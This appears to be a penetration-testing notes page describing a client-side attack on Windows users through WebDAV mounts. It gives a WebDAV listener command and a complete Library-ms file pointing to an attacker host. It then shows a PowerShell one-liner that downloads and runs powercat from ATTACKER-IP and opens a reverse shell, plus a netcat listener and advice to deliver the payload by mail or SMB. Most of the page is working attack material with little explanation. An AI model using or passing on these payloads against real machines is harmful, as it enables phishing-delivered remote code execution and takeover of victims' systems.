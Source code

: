 ## Exploiting Windows Users with WebDav mounts
---

With Windows libraries we can craft client-side attacks on Windows. We can serve this configuration for a WebDav mount on the victim's computer. First we start or WebDav listener in the Kali machine with

```shell
wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root .
```

We can craft the following `config.Library-ms` file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://<ATTACKER-IP></url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

Then we can upload to the WebDAV a malicious **Windows Shortcut** file (lnk file) that points to the attacker malicious ip that servers a malicious exe for a reverseshell, like [powercat](https://github.com/besimorhino/powercat). In this section, a simple reverse shell won't work, but we have to use some webserver (like python webserver) with the executable available. Something like that could work for Windows 10/11

```powershell
powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://ATTACKER-IP:WEBPORT/powercat.ps1');
powercat -c ATTACKER-IP-NETCAT -p NETCAT-PORT -e powershell"
```

We copy inside the WebDAV the the link of the powershell command previously created and also the **config-Library.ms** file that we will send to the victim as the payload (via MAIL, SMB, etc...).

with our netcat listener on the attacker side.

```shell
nc -lvp NETCAT-PORT
```
